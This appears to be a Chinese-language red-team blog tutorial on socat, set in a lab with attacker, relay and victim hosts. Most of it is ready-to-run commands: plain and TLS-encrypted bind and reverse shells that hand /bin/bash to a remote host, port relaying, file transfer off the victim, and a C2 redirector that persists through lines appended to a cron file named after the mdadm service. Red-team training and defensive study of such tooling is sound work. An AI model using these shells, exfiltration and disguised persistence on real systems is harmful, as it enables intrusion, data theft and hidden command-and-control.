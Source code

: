 ```yaml
---
layout: post
title: "socat工具使用"
date: 2021-12-05
author: 2hanx
toc: true
categories: ["Red Team"]
tags: ["Tools","Traffic relay"]
---
```


### 什么是 socat？

socat 是一种 Relay (中继)工具，可以独立用于两个数据通道之间的双向数据传输，多用于流量转发。

### 网络拓扑

| Role         | ip                |
| ------------ | ----------------- |
| attack       | `192.168.174.128` |
| relay server | `192.168.174.129` |
| victim       | `192.168.174.141` |

### 功能

#### Bind shell

1. victim 监听 **6666** 端口，等待传入的连接，一旦连接成功就反弹 bash shell

    ```bash
    socat -d -d TCP4-LISTEN:6666 exec:/bin/bash
    ```

2. attack 发起连接，成功连接就可拿到目标的shell

    ```bash
    socat - TCP4:192.168.174.141:6666
    ```

##### 抓包分析

![1]({{ '/socat/1.png' | prepend: site.url }})

 可以看到 `socat` 之间通过 TCP 连接，并且是明文传输数据，不安全。

#### 加密 Bind shell

1. victim 上创建加密使用的密钥（*bind_shell.key*）和证书（*bind_shell.crt*）

   ```bash
   openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
   ```
   
2. victim 上使用密钥和证书创建 *.pem*  文件用于加密流量

   ```bash
   cat bind_shell.key bind_shell.crt > bind_shell.pem
   ```

3. victim 监听 **7777** 端口，等待传入的连接，一旦连接成功就反弹 bash shell

   ```bash
   socat OPENSSL-LISTEN:7777,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
   ```

4. attack  发起连接，成功连接就可拿到目标的shell

    ```bash
    socat - OPENSSL:192.168.174.141:7777,verify=0
    ```

##### 抓包分析

![2]({{ '/socat/2.png' | prepend: site.url }})

可以看到 `socat` 之间的传输经过加密，并且走的是 TLSv1.3 协议。

#### 反向shell

1. attack 创建反向shell的监听器

   ```bash
   socat -d -d TCP4-LISTEN:8888 STDOUT
   ```

2. victim 反向连接 attack

   ```bash
   socat TCP4:192.168.174.128:8888 exec:/bin/bash
   ```

#### 加密反向shell

1. attack 上创建一个密钥（*ignite.key*）和与之关联的证书（*ignite.crt*）

   ```bash
   openssl req -newkey rsa:2048 -nodes -keyout ignite.key -x509 -days 1000 -subj '/CN=www.ignite.lab/O=Ignite Tech./C=IN' -out ignite.crt
   ```

2. attack 上使用密钥和证书转换为 *.pem* 文件用于通信加密

   ```bash
   cat ignite.key ignite.crt > ignite.pem
   ```

3. attack 监听 **9999** 端口，等待传入的连接，一旦连接成功就可获得victim 反弹过来的 bash shell

   ```bash
   socat -d -d OPENSSL-LISTEN:9999,cert=ignite.pem,verify=0,fork STDOUT
   ```

4. victim 发起连接

   ```bash
   socat OPENSSL:192.168.174.128:9999,verify=0 exec:/bin/bash
   ```

#### 端口转发

1. relay server 上监听 **9988** 端口，并将请求转发至 victim的 **7766** 端口

   ```bash
   socat -d -d -lf /var/log/socat.log TCP4-LISTEN:9988,bind=192.168.174.129,reuseaddr,fork TCP4:192.168.174.141:7766
   ```

2. attack 发起连接

   ```bash
   socat TCP4:192.168.174.129:9988
   ```

#### 文件传输

1. victim 开启 **443** 端口，等待传入的连接，一旦连接成功就发送文件

   ```bash
   socat -d -d TCP4-LISTEN:443,fork file:data.txt
   ```

2. attack 发起连接，并保存文件

   ```base
   socat TCP4:192.168.174.141:443 file:data.txt, create
   ```

##### 抓包分析

![3]({{ '/socat/3.png' | prepend: site.url }})

 可以看到 `socat` 之间文件传输通过 TCP 连接，并且是明文传输数据，不安全。

#### 加密文件传输

根据之前的写法就可以进行加密文件传输

1. victim 监听 **443** 端口，等待传入的连接，一旦连接成功就发送文件

   ```bash
   socat -d -d OPENSSL-LISTEN:443,cert=transfer_file.pem,verify=0,fork file:data.txt
   ```

2. attack 发起连接，并保存文件

   ```bash
   socat OPENSSL:192.168.174.141:443,verify=0 file:data.txt, create
   ```

### C2上设置 socat

C2流量转发服务器一般是将端口转发命令添加到计划任务里，例如脚本：

```shell
echo "@reboot root socat TCP4-LISTEN:80,fork TCP4:<c2-http-ipv4_address>:80" >> /etc/cron.d/mdadm
echo "@reboot root socat TCP4-LISTEN:443,fork TCP4:<c2-http-ipv4_address>:443" >> /etc/cron.d/mdadm
shutdown -r
```

### Ref.

- [https://www.hackingarticles.in/socat-for-pentester/](https://www.hackingarticles.in/socat-for-pentester/)

